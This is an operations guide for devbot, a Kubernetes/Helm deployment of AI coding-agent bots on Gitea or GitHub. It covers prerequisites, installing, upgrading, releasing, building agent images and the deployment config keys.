

# Operating devbot

Everything an install can change lives in the Helm chart's values, under
`deploy/helm/devbot`. `values.yaml` holds neutral defaults, and
`values.example-gitea.yaml` and `values.example-github.yaml` show complete
installs. Keep your own values file in your own repo and layer it over the chart.

- [Installing](#installing): [prerequisites](#prerequisites), [the client CLI](#the-client-cli)
- [Tested environments](#tested-environments)
- [Upgrading](#upgrading)
- [Uninstalling](#uninstalling)
- [Releasing](#releasing)
- [Agent images](#agent-images)
- [Deployment config (`config:`)](#deployment-config-config)
- [Helm values](#helm-values)
- [Secrets](#secrets)
- [Environment variables](#environment-variables)
- [Model proxy](#model-proxy)
- [Egress](#egress)
- [High availability](#high-availability)
- [Forge setup](#forge-setup)
- [Security](#security)
- [Connector auth](#connector-auth)
- [Web UI](#web-ui)
- [Rebasing approved PRs](#rebasing-approved-prs)
- [Observability](#observability)
- [Audit logging](#audit-logging)
- [Troubleshooting](#troubleshooting)
- [Runbook](#runbook)

## Installing

[quickstart.md](quickstart.md) walks through a first install step by step.
This section is the reference for it.

### Prerequisites

devbot's own docs and the chart assume all of these. The minimum versions
are what the chart's objects and job pods need, not what has been tested
([Tested environments](#tested-environments) has that).

1. **Kubernetes 1.30 or later.** Job pods use native sidecars (1.29), and
   the chart's ValidatingAdmissionPolicies, which bound serve's
   [pod labelling](#labelling-job-pods) (on by default) and
   [service containers](#service-containers) (off by default), need 1.30.
   The installer must be allowed to create those cluster-scoped policies.
2. **User namespaces on the job nodes**, for `jobs.userNamespaces: true`
   (the default, `hostUsers: false` on job pods): Kubernetes 1.33 or later,
   containerd 2.0 or later or CRI-O 1.25 or later, and idmapped mounts on
   the filesystem under the kubelet's directory, which holds the job pods'
   emptyDir and ConfigMap volumes (ext4 and XFS from Linux 5.12, btrfs from
   5.15). A tmpfs volume, such as the projected token IRSA and Pod Identity
   add, needs Linux 6.3. Without them job pods don't start
   ([Troubleshooting](#troubleshooting)); set `jobs.userNamespaces: false`
   instead, and consider a sandboxed runtime (`jobs.runtimeClassName`).
3. **KEDA 2.16 or later**, for the ScaledJobs. 2.16's ScaledJob CRD is the
   first with `appArmorProfile` in its pod template; an older one silently
   prunes it and other recent pod fields. Tested on 2.20.2.
4. **Helm 4**, installing with `--wait=legacy`: Helm 4's default wait also
   waits on the ScaledJobs' `Ready` condition, which KEDA can leave at
   `False` after a first install although the jobs scale fine. With Helm 3,
   use `--wait` instead, which is the same wait.
5. **A NetworkPolicy implementation that enforces egress rules** (Calico,
   Cilium, k3s's built-in controller, ...). `networkPolicy.enabled` is on by
   default and does nothing without one.
6. **A namespace of devbot's own**, with nothing else in it
   ([Security](#security)). The chart labels pods and creates them for
   service containers in its namespace.
7. **Model credentials** for the harness each role runs: an Anthropic API
   key or a Claude subscription token from `claude setup-token` (`claude`),
   an OpenAI API key (`codex`), or [Bedrock](#bedrock) access. They go in
   the [Secrets](#secrets).
8. **Redis**: the chart's own (`redis.enabled`, Redis 7.4.x, the default),
   or one of your own with the ACL users `devbot-serve`, `devbot-harness`
   and `devbot-keda`, each with a password of its own ([Redis](#redis)).
   Redis Cluster isn't supported.
9. **Two bots on the forge**, an implementer and a reviewer. The reviewer
   must be a different identity, because forges don't let a PR's author
   approve it.
   - **Gitea:** two bot users, each with a token that can read and write
     repositories and issues
     (`write:repository,write:issue,read:user,read:organization`). Make
     them collaborators on devbot's repos, or members of an org team that
     holds them, never site admins: a Gitea token reaches every repo its
     user can (see [Security](#security)).
   - **GitHub** (GitHub.com or GitHub Enterprise Server): two **GitHub
     Apps**, each with a private key (see [GitHub](#github)).
10. The **Secrets** listed [below](#secrets).
11. For a role on Claude Code (`harness: claude`, the default), a **devbot
    image with Claude Code** that you build and push to your own registry,
    set in `image.agents.claude`: devbot publishes none, as Claude Code is
    under Anthropic's terms (see [Agent images](#agent-images)). The chart
    doesn't render without it. A role on Codex runs the published codex
    image.
12. A **webhook** from the forge to `serve` (see [Forge setup](#forge-setup)).
13. For connector callers who sign in through the forge (`auth.mode: oauth`), one **OAuth app** on the forge (on GitHub, a GitHub App: by default the implementer App) and an auth key (see [Connector auth](#connector-auth)).

[Docker](#docker) per run has more requirements of its own, listed at the
top of its section.

### Installing a release

A [release](#releasing) is multi-arch (`linux/amd64`, `linux/arm64`)
images, `docker.io/robertlestak/devbot` (base) and
`docker.io/robertlestak/devbot-codex`, and a Helm chart,
`oci://registry-1.docker.io/robertlestak/devbot-chart`, all versioned `X.Y.Z`
([Agent images](#agent-images)). The released chart already defaults to the
released base and codex images, so your values only set
`image.agents.claude`, and only for a role on Claude Code:

```bash
helm upgrade --install devbot oci://registry-1.docker.io/robertlestak/devbot-chart \
  --version X.Y.Z -n devbot -f my-values.yaml --wait=legacy
```

devbot's CI also publishes images and a Helm chart for every commit on
`main` (see [Versions](#versions)). Install one of those with
`image.repository` and `image.agents` in your values pointing at where its
images are published:

```bash
helm upgrade --install devbot oci://<registry>/devbot --version <ver> -n devbot \
  -f my-values.yaml --wait=legacy
```

The chart checks your values against its `values.schema.json`. It refuses
to install without `config.providers`, since serve would start with no forge
and do nothing, on a cluster without KEDA, and, with `docker.mode`, where
KEDA's ScaledJob CRD has no `appArmorProfile` (KEDA before 2.16), which
would drop the Docker sidecar's. On a cluster older than Kubernetes 1.33
with `jobs.userNamespaces` on, its notes warn that job pods won't start.

Any release name works: objects are named for it, and each release's
selectors carry its `app.kubernetes.io/instance`, so two releases can share
a namespace. After an install, its notes list serve's webhook, MCP and UI
URLs, the Secrets it reads with their keys, and how to check it is up.

To run an unpublished commit, build its images from `docker/Dockerfile` with
[`hack/image-build`](#releasing) and install the chart from the source tree,
setting `image.tag`. With `image.repository: registry.example.com/devbot`,
`image.agents.codex.repository: registry.example.com/devbot-codex` and
`image.agents.claude.repository: registry.example.com/devbot-claude` in your
values:

```bash
tag=$(git rev-parse --short=8 HEAD)
hack/image-build base "$tag" registry.example.com/devbot:$tag
hack/image-build claude "$tag" registry.example.com/devbot-claude:$tag   # and/or codex

helm upgrade --install devbot deploy/helm/devbot -n devbot \
  -f my-values.yaml --set image.tag=$tag --wait=legacy
```

Then, for each repo, give both bots **write access**: on Gitea, as
collaborators; on GitHub, by installing both Apps on it. That alone puts
the repo in reach under `repos.opt_in: any` (the default). A
[`.devbot.yaml`](devbot-yaml.md) is optional and sets the repo's own policy.
The bots also need to read who else may write to the repo, which on Gitea
takes repo or org-team admin: see [Who can direct
devbot](#who-can-direct-devbot).
An install that should only touch repos that have deliberately opted in sets
`repos.opt_in: file`, plus `repos.allow` and `repos.deny` to bound it.

### The client CLI

`devbot file`, `status`, `list`, `answer`, `events`, `cancel`, `retry` and
the rest are a client of serve's [HTTP API](connectors.md#tools), at
`DEVBOT_URL`. The client is the image's entrypoint, so it runs from the
release image with nothing installed:

```bash
docker run --rm -e DEVBOT_URL=https://devbot.example.com \
  docker.io/robertlestak/devbot:X.Y.Z list -repo gitea:acme/webapp
```

With `auth.mode: oauth`, sign in once and keep the tokens on the host, or
pass a token in `DEVBOT_TOKEN`:

```bash
mkdir -p ~/.config/devbot
docker run --rm -it -e DEVBOT_URL=https://devbot.example.com \
  -v ~/.config/devbot:/root/.config/devbot docker.io/robertlestak/devbot:X.Y.Z login
docker run --rm -e DEVBOT_URL=https://devbot.example.com \
  -v ~/.config/devbot:/root/.config/devbot docker.io/robertlestak/devbot:X.Y.Z \
  status gitea:acme/webapp#42
```

A shell alias makes it read like a local binary:
`alias devbot='docker run --rm -i -e DEVBOT_URL -e DEVBOT_TOKEN -v ~/.config/devbot:/root/.config/devbot docker.io/robertlestak/devbot:X.Y.Z'`.
To build it instead, `go build -o devbot ./cmd/devbot` in a clone of the
repo.

### Versions

Each commit on `main` is published as:

| | Name | Example |
|---|---|---|
| Base image | `<image repo>:<sha8>` | `registry.example.com/devbot:3458feb3` |
| Codex image | `<image repo>-codex:<sha8>` | `registry.example.com/devbot-codex:3458feb3` |
| Claude image | `<claude image repo>:<sha8>`, only when `CLAUDE_IMAGE_REPO` is set | `registry.example.com/private/devbot-claude:3458feb3` |
| Chart | `<chart repo>/devbot`, version `<Chart.yaml version>-<sha8>`, appVersion `<sha8>` | `0.1.0-3458feb3` |

`<sha8>` is the commit's first 8 characters. The chart's `image.tag`, and
each `image.agents.<harness>.tag`, defaults to its appVersion, so a chart
version runs the images built from the same commit. These tags never move,
so there is no per-commit `latest`, and `image.pullPolicy` defaults to
`IfNotPresent`. The chart is pushed after its images, so a published chart
always has its images. An install of a per-commit chart sets
`image.repository` to `<image repo>`, `image.agents.codex.repository` to
`<image repo>-codex` and `image.agents.claude.repository` to `<claude image
repo>`.

### Publishing

The `images` and `chart` jobs in `.gitea/workflows/ci.yaml` run on a push to
`main` after the tests pass, never for a pull request. `images` builds each
image (base, codex and claude) in a job of its own, side by side, each on its
own builder; `chart` publishes once they have all been pushed. A fork that
publishes its own sets these in its Actions settings:

| Name | Kind | Meaning |
|---|---|---|
| `IMAGE_REPO` | variable | Where the base image goes, e.g. `registry.example.com/devbot`. The codex image goes to `<IMAGE_REPO>-codex`. |
| `CLAUDE_IMAGE_REPO` | variable | Optional: where the claude image goes, a registry only your deployments can pull from, e.g. `registry.example.com/private/devbot-claude` (see [Agent images](#agent-images)). Without it, no claude image is built. |
| `CHART_REPO` | variable | The OCI repository the chart goes to, e.g. `oci://registry.example.com/charts`. The chart lands at `<CHART_REPO>/devbot`. |
| `BUILDX_NAMESPACE` | variable | With `KUBE_CONFIG`: the namespace to run Kubernetes buildx builders in, on amd64 nodes. Each image's builder is its own, per run, and always removed. Without both, the runner's default buildx builder builds. |
| `KUBE_CONFIG` | secret | With `BUILDX_NAMESPACE`: a base64 kubeconfig for the builder's cluster. |
| `REGISTRY_USERNAME`, `REGISTRY_PASSWORD` | secret | Optional login for the image, claude image and chart registries. Without them, pushes are anonymous. |

Unless both `IMAGE_REPO` and `CHART_REPO` are set, the jobs publish nothing, with a
notice, and CI stays green.

## Tested environments

What devbot is tested on, end to end, and what it isn't. Elsewhere, where
these docs say something has been "verified" or "run", it was here.

| | Tested on |
|---|---|
| Kubernetes | k3s v1.36 |
| Container runtime | containerd 2.3.4, with `hostUsers: false` job pods (`jobs.userNamespaces: true`) |
| Nodes | Linux 6.1, amd64 job nodes. Job pods haven't run on arm64 nodes |
| KEDA | 2.20.2 |
| NetworkPolicy | k3s's built-in network policy controller |
| Gitea | 28.1.0 |
| GitHub | GitHub.com, through the [live GitHub test](#running-the-live-github-test) |
| Model | Anthropic's API with the `claude` harness; Bedrock per harness by the [live Bedrock test](#running-the-live-bedrock-test), with each CLI signing itself rather than through the model proxy ([What has been verified](#what-has-been-verified)) |
| [Docker](#docker) per run | the `dind` daemon's container in a `hostUsers: false` pod on the nodes above, with the device plugin's `/dev/net/tun` ([dind](#dind) has what was checked) |

Not tested:

- **The `codex` harness against OpenAI's API**, end to end. It is
  implemented to OpenAI's documentation and tested against a fake API, and
  the real `codex` CLI has run through the model proxy against that fake
  ([Codex](#codex)).
- **Forgejo.** The Gitea adapter is written to Gitea's API, which Forgejo
  shares, but no install runs on Forgejo.
- **GitHub Enterprise Server.** The GitHub adapter takes its API base from
  `url` ([GitHub Enterprise Server](#github-enterprise-server)); no test has
  run against an appliance.
- **EKS and GKE**, IRSA and Pod Identity: render and unit tests only
  ([Reference architecture](reference-architecture.md#reference-deployments)).
- **OpenShift** ([Generic or on-prem](reference-architecture.md#generic-or-on-prem)).
- **Docker per run** as a whole devbot run, with the chart's own device
  plugin, on arm64 or 5.x-kernel nodes ([dind](#dind)).
- Job pods on arm64 nodes.
- The [live model API test](#running-the-live-model-api-test).

## Upgrading

Each release's chart has the release's version, and runs its images. To
upgrade, install the new chart version over the old one, with the same
values:

```bash
helm upgrade devbot oci://registry-1.docker.io/robertlestak/devbot-chart \
  --version <new X.Y.Z> -n devbot -f my-values.yaml --wait=legacy
```

Before you do:

- **Read the changelog** ([CHANGELOG.md](https://github.com/robertlestak/devbot/blob/main/CHANGELOG.md))
  for every release between yours and the new one. A release that renames
  or removes a key, or changes what a value does, says so there, with what
  to change.
- **Render your values against the new chart** (`helm template` with the
  same `--version` and `-f`) and look at the diff. devbot ignores config
  keys it doesn't know, so a key that was renamed or removed is dropped
  silently rather than refused.

What happens during the rollout:

- **serve** rolls one pod at a time, starting the new one first. With 2 or
  more replicas and the PodDisruptionBudget, nothing stops answering
  ([High availability](#high-availability)). With one, webhooks and the
  connectors are down for the few seconds between them; a webhook missed
  then is caught by the next reconcile pass.
- **Job pods already running** keep their old pod template and image, and
  finish their job as they started it. KEDA starts every new job pod from
  the upgraded ScaledJobs. For the minutes it takes the running ones to
  finish, old job pods and new serve work against the same Redis and forge.
  Should a release's changelog say its job pods can't overlap older ones,
  wait for them to finish first: the [web UI](#web-ui)'s Running page, or
  `kubectl -n devbot get jobs`, shows what's still running.
- **A job pod killed mid-run** (by a node drain, say) counts as a failed
  attempt, and the task goes back on the queue from its label.
- **Redis keeps its passwords.** The chart generates `<release>-redis` once
  and reuses its passwords on every upgrade; the Redis pod restarts only
  when its own template changes, and with `redis.persistence.enabled` comes
  back with everything on its claim ([Redis persistence](#redis-persistence)).
  There is nothing to migrate: the forge is the system of record.

## Uninstalling

```bash
helm uninstall devbot -n devbot --wait
```

Helm removes everything the chart made, including its cluster-scoped
ValidatingAdmissionPolicies and their bindings, and the generated Redis
Secret. It leaves:

- **The Redis claim**, `<release>-redis`, when `redis.persistence.enabled`:
  it carries `helm.sh/resource-policy: keep`. Delete it with
  `kubectl -n devbot delete pvc devbot-redis` (it holds sign-ins and
  people's sealed forge tokens), or keep it for a reinstall.
- **The Secrets you created** (`secrets.*`, `redis.existingSecret`), and
  the namespace.
- **KEDA**, which isn't part of the chart.

On the forge, devbot's state stays where it is, and nothing acts on it:

- the `devbot/*` labels, on the repos and on their issues and PRs;
- the `devbot/*` task branches of open PRs, and the
  [`devbot/attachments`](#attachments-branch) branch in each repo;
- the webhook (Gitea's system or org webhook, or the implementer App's);
- on GitHub, the two Apps and their installations, and on Gitea the bot
  users and their tokens;
- the OAuth app for sign-ins (`auth.mode: oauth`): the Gitea OAuth2
  application, or the sign-in GitHub App's client secret.

Remove those by hand to take devbot out entirely. Revoke the bots' tokens
and the Apps' private keys even if you keep the bots.

## Releasing

To release, push a `vX.Y.Z` tag on a commit of `main` that CI passed (or
publish a release for it on the forge). `.gitea/workflows/release.yaml` runs
on a pushed `v*` tag and on a published release, and the two runs for the
same tag queue one behind the other and publish the same tags. It doesn't
wait for `ci.yaml`.

A `vX.Y.Z` tag (for example `v1.4.2`):

1. Builds `docker/Dockerfile`'s targets for `linux/amd64` and `linux/arm64`,
   with `VERSION` set to the tag, and pushes multi-arch images tagged
   `vX.Y.Z`, `X.Y.Z`, `X.Y`, `X` and `latest`: the base image as
   `<your-dockerhub-user>/devbot` and the codex image as
   `<your-dockerhub-user>/devbot-codex` on Docker Hub. The claude image goes,
   with the same tags, to Docker Hub as `<your-dockerhub-user>/devbot-claude`
   only with `PUBLISH_CLAUDE_IMAGE` set to `true`, otherwise to
   `CLAUDE_IMAGE_REPO` if that is set, and otherwise nowhere.
2. Then packages `deploy/helm/devbot` with version and appVersion `X.Y.Z`,
   named `devbot-chart` (Docker Hub keeps an OCI chart in the repository
   named after it, so as `devbot` it would overwrite the image's `X.Y.Z`
   tag), and pushes it to `oci://registry-1.docker.io/<your-dockerhub-user>`, where it is
   `oci://registry-1.docker.io/<your-dockerhub-user>/devbot-chart`. The packaged
   `image.repository` is `docker.io/<your-dockerhub-user>/devbot` and
   `image.agents.codex.repository` `docker.io/<your-dockerhub-user>/devbot-codex`
   (and, with `PUBLISH_CLAUDE_IMAGE`, `image.agents.claude.repository`
   `docker.io/<your-dockerhub-user>/devbot-claude`). Their tags default to the
   appVersion, so the chart runs the images from the same tag. The repo's own
   `values.yaml` stays install-neutral.

devbot's own releases are published under `robertlestak`: the images
`docker.io/robertlestak/devbot` and `docker.io/robertlestak/devbot-codex`,
and the chart `oci://registry-1.docker.io/robertlestak/devbot-chart`. A fork that
releases its own sets its account in the secrets below.

Each Docker Hub repository's short description and overview come from
`docs/dockerhub/<repo>.md` and a short line in
`.gitea/workflows/dockerhub-description.yaml`, which sets them whenever they
change on main, or when run by hand, with the same `DOCKER_HUB_USERNAME` and
`DOCKER_HUB_PAT`. Links in those files are absolute, since Docker Hub can't
resolve the repo's relative ones.

Any other `v*` tag (a pre-release such as `v1.5.0-rc.1`) publishes only the
images, under that tag alone. It gets no chart, and `latest`, `X.Y` and `X`
don't move.

The workflow reads these from the repo's Actions settings:

| Name | Kind | Meaning |
|---|---|---|
| `DOCKER_HUB_USERNAME` | secret | The Docker Hub account the image and chart are pushed under. |
| `DOCKER_HUB_PAT` | secret | A Docker Hub access token for that account that can push, used for both `docker login` and `helm registry login`. |
| `KUBE_CONFIG` | secret | A base64 kubeconfig for the cluster the multi-arch builder runs in. |
| `BUILDX_NAMESPACE` | variable | The namespace to run the Kubernetes buildx builders in: each image builds in a job of its own, side by side, on a builder of its own (an amd64 and an arm64 node; the arm64 one also tolerates a `node-role.kubernetes.io/ham` taint), per run, always removed afterwards. The chart is published once every image has been. |
| `PUBLISH_CLAUDE_IMAGE` | variable | `true` pushes the claude image to Docker Hub beside the others, and makes it the packaged chart's default. Off unless set: Claude Code is under Anthropic's terms, which grant no right to redistribute it (see [Agent images](#agent-images)). |
| `CLAUDE_IMAGE_REPO` | variable | Without `PUBLISH_CLAUDE_IMAGE`: the private repository the claude image goes to, e.g. `registry.example.com/private/devbot-claude`. |
| `REGISTRY_USERNAME`, `REGISTRY_PASSWORD` | secret | The login for `CLAUDE_IMAGE_REPO`'s registry, if it needs one. |

Without `DOCKER_HUB_USERNAME` or `DOCKER_HUB_PAT`, the workflow publishes no images or chart,
with a notice, so a fork without them stays green. With them but without
`KUBE_CONFIG` and `BUILDX_NAMESPACE`, it fails: a release is always
multi-arch, with no fallback to the runner's own builder.

The CLI binaries for the release come from `hack/release-cli`:

```sh
hack/release-cli v1.4.2          # or: hack/go hack/release-cli v1.4.2
```

It builds `devbot` for `linux` and `darwin` on `amd64` and `arm64`, with the
version set to its argument (what `devbot version` prints), and writes
`devbot_v1.4.2_<os>_<arch>.tar.gz` for each, holding the binary, `LICENSE` and
`README.md`, and a `checksums.txt` of their SHA-256 sums to `dist/` (or the
directory given as a second argument). Attach those files to the release;
`sha256sum -c checksums.txt` checks a download.

The per-commit [publish](#publishing) in `ci.yaml` is separate: it pushes
every green commit on `main` to `IMAGE_REPO` (and `CLAUDE_IMAGE_REPO`) and
`CHART_REPO` as `<sha8>` and `<version>-<sha8>` ([Versions](#versions)), and
never pushes to Docker Hub. Neither workflow depends on the other.

Both build through `hack/image-build`, which you can run yourself:

```bash
# hack/image-build base|codex|claude VERSION REF...
PLATFORMS=linux/amd64,linux/arm64 hack/image-build codex v1.4.2 \
  registry.example.com/devbot-codex:v1.4.2 registry.example.com/devbot-codex:latest
```

It builds `docker/Dockerfile`'s target with `VERSION` and the checkout's
commit in its labels, and pushes every `REF`. `PLATFORMS` defaults to
`linux/amd64`, `BUILDER` picks a buildx builder other than the current one,
and `PUSH=false` loads a single-platform build into the local Docker instead.

### Bumping the pinned CLIs

`docker/Dockerfile` pins Claude Code (`CLAUDE_VERSION`), the Codex CLI
(`CODEX_VERSION`, with its two `CODEX_SHA256_*`) and mise (`MISE_VERSION`,
with its two `MISE_SHA256_*`), and its base images by digest.
`hack/image-versions` prints a `name pinned latest` line for each of the
three whose latest release is newer, or `up to date`. With `-w` it also
rewrites the pins, in `docker/claude.Dockerfile` too, taking each new
SHA-256 from the release's own `codex-package_SHA256SUMS` or
`SHASUMS256.txt`:

```bash
hack/image-versions -w && git diff docker/
```

`.gitea/workflows/image-versions.yaml` runs it every Monday and, when
anything is behind, files a devbot task for the bump: an issue titled "Bump
the pinned agent CLIs and mise" with `devbot/ready`, whose acceptance
criteria have the implementer run `hack/image-versions -w` and
`TestPinnedCLIsThroughTheProxy` against the new CLIs (see
[Model proxy](#model-proxy)), extending the proxy's allowlist if a new CLI
needs a route. It files one at a time, and needs a `GT_TOKEN` secret that
can open issues; without it, the run only lists what is behind.
To move a base image, replace its digest in `GO_IMAGE` or `DEBIAN_IMAGE`
with the one `docker buildx imagetools inspect <image>:<tag>` prints.

## Agent images

A job pod's agent sidecar runs the model's CLI, so each harness has an image
of its own, built from `docker/Dockerfile`:

| Target | Image | What it has | Published |
|---|---|---|---|
| `base` (the default) | `robertlestak/devbot` | devbot, git, mise, `curl`, `gnupg`, `xz`, `unzip`, `procps`: no agent CLI. serve, the harness and the model proxy run it, and the others are built on it. | Docker Hub (MIT) |
| `codex` | `robertlestak/devbot-codex` | `base` with the Codex CLI at `CODEX_VERSION`. | Docker Hub (MIT, Codex Apache-2.0) |
| `claude` | yours, e.g. `<your-registry>/devbot-claude` | `base` with Claude Code at `CLAUDE_VERSION`, its auto-updater off. | No: build it yourself |

The three share version tags: `devbot-codex:v1.4.2` is `devbot:v1.4.2` with
Codex in it. Each download in the build is checked against a SHA-256 its
publisher puts out: Claude Code against the release manifest Anthropic
publishes for the version (what `claude.ai/install.sh` checks), Codex and mise
against the SHA-256s pinned beside their versions. A mismatch fails the
build. The images carry `org.opencontainers.image.*` labels (`source`,
`version`, `revision`, `licenses`, and a `description` on the claude image
that says Claude Code is Anthropic's).

Claude Code is proprietary, © Anthropic PBC, and used under [Anthropic's
Commercial Terms](https://www.anthropic.com/legal/commercial-terms), which
grant no right to redistribute it. So devbot publishes no image with it, and
nor should you: push yours to a registry only your deployments pull from.

### Building the claude image

`docker/claude.Dockerfile` adds Claude Code to a published base image, so
you don't build devbot itself. From a checkout of the release you run (it
only needs `docker/`), for both architectures:

```bash
docker buildx build -f docker/claude.Dockerfile \
  --platform linux/amd64,linux/arm64 \
  --build-arg BASE=docker.io/robertlestak/devbot:v1.4.2 \
  --build-arg CLAUDE_VERSION=2.1.310 \
  -t registry.example.com/private/devbot-claude:v1.4.2 --push .
```

Or, from a checkout at the same tag, the full build's `claude` target, which
builds devbot too:

```bash
docker buildx build -f docker/Dockerfile --target claude \
  --platform linux/amd64,linux/arm64 --build-arg VERSION=v1.4.2 \
  -t registry.example.com/private/devbot-claude:v1.4.2 --push .
```

Leaving out `--build-arg CLAUDE_VERSION` builds the version the checkout pins.
Then point the chart at it, with a pull secret for that registry when the
cluster's nodes can't pull from it by themselves. The chart doesn't create
the Secret; create it in the release's namespace:

```bash
kubectl -n devbot create secret docker-registry regcred \
  --docker-server=registry.example.com \
  --docker-username=<user> --docker-password=<token>
```

```yaml
image:
  agents:
    claude:
      repository: registry.example.com/private/devbot-claude
      # tag: defaults to image.tag, the chart's appVersion: tag it as the release.
imagePullSecrets: [{name: regcred}]
```

`imagePullSecrets` goes on every pod the chart runs, and on the service pods
serve makes (see [Helm values](#helm-values)). Only the pod spec names it,
for the kubelet's pulls: no container mounts it, the agent included.

A role on `claude` without `image.agents.claude.repository` fails `helm
install`, `upgrade` and `template`, with a message pointing here (`helm lint`,
which renders the chart's defaults, doesn't check it), and an agent
container started from an image without its role's CLI exits at once, saying
which image it needs: neither falls back to the base image.

To move to a newer Claude Code, rebuild with a newer `CLAUDE_VERSION` (any
version Anthropic has a manifest for; `curl -fsSL
https://downloads.claude.ai/claude-code-releases/latest` prints the newest)
and a tag of your own, such as `v1.4.2-claude2.1.310`, then set
`image.agents.claude.tag` to it. Run `TestPinnedCLIsThroughTheProxy` with it
first (see [Model proxy](#model-proxy)): the proxy forwards only the routes
the pinned CLIs call.

## Deployment config (`config:`)

The Helm value `config:` is rendered verbatim into the ConfigMap's
`config.yaml`, which every mode reads from `$DEVBOT_CONFIG`. **No secrets go
here**, only the names of the environment variables that carry them.

| Key | Type | Default | Meaning |
|---|---|---|---|
| `providers` | list | `[]` | The forges this install talks to. One entry per forge, keys below. |
| `providers[].name` | string | - | The name used in refs: `gitea` makes `gitea:owner/repo` and `/webhooks/gitea`. |
| `providers[].type` | string | - | Adapter: `gitea` or `github` (GitHub.com and GitHub Enterprise Server; see [GitHub](#github)). |
| `providers[].url` | string | - | Forge base URL, e.g. `https://gitea.example.com`. For `github`, the REST API's base: `https://api.github.com`, or `https://ghe.example.com/api/v3` on GitHub Enterprise Server. Web links are derived from it. |
| `providers[].implementer_user` | string | - | `gitea`: login of the bot that opens PRs, comments and moves labels. |
| `providers[].reviewer_user` | string | - | `gitea`: login of the bot that reviews and merges. Must be a different user from the implementer (logins compare ignoring case), or devbot refuses the config at startup. |
| `providers[].implementer_token_env` | string | - | `gitea`: env var holding the implementer's token. |
| `providers[].reviewer_token_env` | string | - | `gitea`: env var holding the reviewer's token. Must be a different env var from `implementer_token_env`, holding a different token, or devbot refuses to start. |
| `providers[].implementer_app_id` | int | - | `github`: App ID of the implementer's GitHub App. Its login is the App's slug plus `[bot]`, read from GitHub at startup. |
| `providers[].implementer_key_env` | string | - | `github`: env var holding the implementer App's PEM private key. A missing or bad key, or one that isn't the App's, stops devbot at startup. |
| `providers[].reviewer_app_id` | int | - | `github`: App ID of the reviewer's GitHub App. Must be a different App from the implementer's. |
| `providers[].reviewer_key_env` | string | - | `github`: env var holding the reviewer App's PEM private key. |
| `providers[].low_quota_percent` | int, 0 to 99 | `10` | `github`: the share of an installation's REST (`core`) rate limit below which low-priority work waits for the reset: reconcile's discovery and branch sweep, and webhook events no task stands behind. The tasks' own evaluations, merges and job pods go on until the limit. `0` defers nothing. See [GitHub rate limits](#github-rate-limits). |
| `providers[].webhook_secret_env` | string | - | Env var holding the webhook HMAC secret. Without one, webhooks are rejected. |
| `redis.addr` | host:port | `localhost:6379` | Redis for queues and state. The chart renders its own Redis's, `<release>-redis:6379`, unless `config.redis` sets `addr` or `sentinel`. Unused with `redis.sentinel.master`. See [Redis](#redis). |
| `redis.db` | int | `0` | Redis database number. |
| `redis.username_env` | string | - | Env var holding the Redis ACL user devbot connects as. The chart always sets it to `DEVBOT_REDIS_USERNAME`, overwriting any value in `config:`, and sets that variable in each pod: `devbot-serve` in serve, `devbot-harness` in job pods' harness. Without it, Redis's default user. |
| `redis.password_env` | string | - | Env var holding that user's password. The chart always sets it to `DEVBOT_REDIS_PASSWORD`, overwriting any value in `config:`, and fills that variable from `redis.existingSecret` or the Secret it generates. Named but empty stops devbot at startup. See [Redis](#redis). |
| `redis.tls.enabled` | bool | `false` | Connect to Redis over TLS (TLS 1.2 or later), Sentinel included, verifying its certificate. |
| `redis.tls.ca_env` | string | - | Env var holding PEM certificates to trust for Redis instead of the system's, for a private CA. One that holds none stops devbot at startup. |
| `redis.tls.server_name` | string | the host in `addr` | The name to verify Redis's certificate against, when it isn't the address's host. KEDA has no such setting, so its trigger verifies against the address. |
| `redis.sentinel.master` | string | - | Find the master through Redis Sentinel: the master's name. With it, `redis.sentinel.addrs` is required and `redis.addr` is unused. |
| `redis.sentinel.addrs` | list of host:port | `[]` | The Sentinels to ask. |
| `redis.sentinel.username` | string | `""` | ACL user for the Sentinels, when they have one of their own. |
| `redis.sentinel.password_env` | string | - | Env var holding the Sentinels' password, when they have one of their own. Named but empty stops devbot at startup. The chart takes it, and `redis.tls.ca_env`, from `secrets.redis`. |
| `authorization.min_permission` | `write` \| `maintain` \| `admin` | `write` | The least forge permission on a repo that lets someone direct devbot there (see [Who can direct devbot](#who-can-direct-devbot)). A forge without a role maps it to the nearest one below: Gitea has no `maintain`, so it means `write` there. |
| `agents.implement.harness` | `claude` \| `codex` | `claude` | The agent harness the implementer runs: the CLI that drives the model in the job pod's agent sidecar (see [Agent harnesses](#agent-harnesses)). Anything else stops devbot at startup. The chart mounts `secrets.agents.<harness>` into that role's [model proxy](#model-proxy), never the sidecar, and runs the sidecar in `image.agents.<harness>`. |
| `agents.implement.model` | string | the harness's default (`claude-opus-5-5`; `codex`: `gpt-6.1-sol`, the pinned CLI's own default) | Implementer model, named the way the harness names models. A repo can override it (`agents.implement.model` in its `.devbot.yaml`), and a task can override both: each role runs on the task's own model (set through `file_task`, `file_project` or `edit_task`, or a [`/model` comment](forge.md#choosing-the-model)), else the repo's, else this. The harness stays this deployment's, so a repo or a task names a model for it. |
| `agents.review.harness` | `claude` \| `codex` | `claude` | The same for the reviewer. |
| `agents.review.model` | string | = implement's, with the same harness | Reviewer model. A repo, and then a task, can override it, as for the implementer. |
| `agents.implement.aws.region` | AWS region | - | Run the implementer's model on [Amazon Bedrock](#bedrock) in this region. Setting `agents.implement.aws` at all moves the role to Bedrock, and then `agents.implement.model` has no default: name a Bedrock model ID or inference profile. |
| `agents.implement.aws.auth` | `irsa` \| `pod_identity` \| `access_keys` | - | How the implementer's model proxy gets the AWS credential it signs with on Bedrock ([credential modes](#credential-modes)). Required with `aws`. The chart acts on it; devbot checks it at startup. |
